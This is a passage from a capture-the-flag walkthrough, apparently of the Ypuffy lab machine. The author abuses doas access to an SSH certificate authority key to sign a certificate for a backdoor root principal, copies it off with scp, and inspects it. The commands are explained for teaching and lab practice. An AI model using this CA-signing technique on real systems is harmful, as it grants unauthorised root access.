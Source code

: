 Now, I’ll generate the cert:

```

ypuffy$ doas -u userca /usr/bin/ssh-keygen -s /home/userca/ca -I 0xdf -n 3m3rgencyB4ckd00r -V +52w id_rsa_ypuffy_root.pub
Signed user key id_rsa_ypuffy_root-cert.pub: id "0xdf" serial 0 for 3m3rgencyB4ckd00r valid from 2019-02-01T09:01:00 to 2020-01-31T09:02:19

ypuffy$ ls -l id_rsa_ypuffy_root*
-rw-r--r--  1 userca     wheel  1504 Feb  1 09:02 id_rsa_ypuffy_root-cert.pub
-rwxr-xr--  1 alice1978  wheel   391 Feb  1 08:55 id_rsa_ypuffy_root.pub

```

Here’s the breakdown of the options I used with `ssh-keygen`:
- `-s /home/userca/ca` - Specifies that I want to sign a public key using the given CA private key.
- `-I 0xdf` - The identify associated with the certificate. In this case, it’s arbitrary. In an enterprise, they could use this to track who was assigned a given cert.
- `-n 3m3rgencyB4ckd00r` - The principles to be included in the certificate.
- `-V +52w` - Make this certificate good for 52 weeks.
- `id_rsa_ypuffy_root.pub` - the public key that will be associated with the certificate.

As the output shows, the command output a file ending in `-cert.pub`. The original public key is unchanged.

#### scp Certificate

I can delete the public key here since I don’t need it anymore (I have a copy on my host). I’ll need to get the certificate back. I could just copy/paste, but I’ll use `scp`:

```

root@kali# scp -i alice.pem alice1978@10.10.10.107:/tmp/id_rsa_ypuffy_root-cert.pub .
id_rsa_ypuffy_root-cert.pub                             100% 1504    73.0KB/s   00:00

```

#### Examine Certificate / Keys

I can look at my certificate and keys using `ssh-keygen`. I’ll start by getting the certificate information (`-L`) on the file:

```

root@kali# ssh-keygen -L -f id_rsa_ypuffy_root-cert.pub 
id_rsa_ypuffy_root-cert.pub:
        Type: ssh-rsa-cert-v01@openssh.com user certificate
        Public key: RSA-CERT SHA256:dWbA41JT/ytpdyy7lIKXaU/OQF6Rsl8XH7w7gG37fhI
        Signing CA: RSA SHA256:WCPFBuZqiubacS+hgAGylLHBjatuKa8zoWO2vFFycsg
        Key ID: "0xdf"
        Serial: 0
        Valid: from 2019-02-01T09:01:00 to 2020-01-31T09:02:19
        Principals: 
                3m3rgencyB4ckd00r
        Critical Options: (none)
        Extensions: 
                permit-X11-forwarding
                permit-agent-forwarding
                permit-port-forwarding
                permit-pty
                permit-user-rc

```
